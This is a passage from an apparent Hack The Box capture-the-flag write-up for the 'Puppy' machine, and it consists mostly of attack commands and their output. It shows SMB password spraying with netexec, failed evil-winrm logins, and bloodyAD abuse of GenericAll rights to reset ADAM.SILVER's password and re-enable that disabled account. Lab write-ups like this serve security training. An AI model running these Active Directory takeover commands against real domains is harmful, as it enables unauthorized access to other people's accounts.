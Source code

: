 ```bash
netexec smb 10.10.11.70 -u usernames.txt -p pass.txt
```

```bash
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025!
```


lets try logging via winrm
```bash
evil-winrm -i 10.10.11.70 -u ant.edwards -p 'Antman2025!'
```
hm it seems winrm is not open (also verified but our nmap scan)

BUT we might not be able to login via evil-winrm, we can login via bloodyad though and since we have genericall towards adam silver, we can do a pass reset!
```bash
└──╼ $crackmapexec smb 10.10.11.70 -u 'ADAM.SILVER' -p 'Thebestpass0!'
SMB         10.10.11.70     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\ADAM.SILVER:Thebestpass0! STATUS_ACCOUNT_DISABLED
```

## **Password Reset**

```bash
bloodyAD --host '10.10.11.70' -d 'dc.puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password ADAM.SILVER Thebestpass0!
```
![](MediaFiles/Pasted%20image%2020250927224909.png)

great, it was successful, and there are the new creds of adam silver
```bash
ADAM.SILVER
Thebestpass0!
```
lets try logging via winrm
```bash
evil-winrm -i 10.10.11.70 -u 'ADAM.SILVER' -p 'Thebestpass0!'
```
BUT tried logging in via winrm, and no luck! WHY?

-> going back on bloodhound, i noticed that the account is `not enabled` ! so lets enable it
```bash
bloodyAD --host DC.puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac 'ADAM.SILVER' -f ACCOUNTDISABLE
```
![](MediaFiles/Pasted%20image%2020250927224929.png)

nice, now that it is enabled, lets try the user's creds:
```bash
crackmapexec winrm 10.10.11.70 -u 'ADAM.SILVER' -p 'Thebestpass0!' -d puppy.htb
```

